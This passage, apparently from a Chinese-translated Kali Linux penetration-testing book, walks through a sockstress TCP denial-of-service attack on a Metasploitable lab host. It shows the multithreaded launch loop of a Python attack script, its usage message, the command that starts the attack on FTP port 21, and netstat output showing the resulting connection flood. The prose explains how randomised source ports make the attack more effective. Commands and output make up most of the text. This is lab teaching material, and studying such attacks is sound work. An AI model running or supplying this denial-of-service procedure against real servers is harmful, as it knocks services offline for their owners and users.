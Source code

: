 ```py

## Spin up multiple threads to launch the attack
print "\nThe onslaught has begun...use Ctrl+C to stop the attack" 
for x in range(0,threads):   
    thread.start_new_thread(sockstress, (target,dstport))

## Make it go FOREVER (...or at least until Ctrl+C) 
while 0 == 0:   
    sleep(1)

```

请注意，此脚本有两个主要功能，包括 sockstress 攻击功能和单独的正常关机功能。 关闭需要单独的函数，因为为了使脚本正常运行，脚本必须修改本地 iptables 规则。 此更改是必需的，以便使用 Scapy 完成与远程主机的 TCP 连接。 在第三章“端口扫描”的“使用 Scapy 配置连接扫描”中，更彻底地解决了这一问题。 在执行脚本之前，我们可以使用 netstat 和 free 工具为已建立的连接和正在使用的内存获取基线：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp6       0      0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826  ESTABLISHED 
udp        0      0 localhost:32840         localhost:32840         ESTABLISHED 
msfadmin@metasploitable:~$ free -m 
             
             total       used       free     shared    buffers     cached 
Mem:           503        157        345          0         13         54 
-/+ buffers/cache:         89        413 
Swap:            0          0          0 
```

通过使用 netstat，然后通过管道输出到`grep`函数，并只提取已建立的连接，我们可以看到只存在两个连接。 我们还可以使用`free`工具查看当前的内存使用情况。 `-m`选项用于返回以兆字节为单位的值。 在确定已建立的连接和可用内存的基线后，我们可以对此目标服务器启动攻击：

```
root@KaliLinux:~# ./sock_stress.py 
Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 21 20 
Example will perform a 20x multi-threaded sock-stress DoS attack against the FTP (port 21) service on 10.0.0.

***NOTE*** 
Make sure you target a port that responds when a connection is made 
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
```

通过在没有任何提供的参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址，sock stress DoS所发送的端口号，以及将用于执行 sock stress DoS 的线程或并发进程的数量。每个线程以生成 0 到 65,535 之间的整数值开始。此范围表示可分配给源端口的全部可能值。定义源和目的地端口地址的 TCP 报头的部分在长度上都是 16 比特。每个位可以为值 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端口地址。单个源端口只能维持单个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的效率。一旦攻击开始，我们可以通过检查在目标服务器上建立的活动连接，来验证它是否正常工作：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:25624     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12129     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31294     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:46731     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:15281     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:47576     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:27472     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:11152     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:56245     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:1161      ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:21064     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:29344     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:43747     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:59609     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31927     ESTABLISHED
```
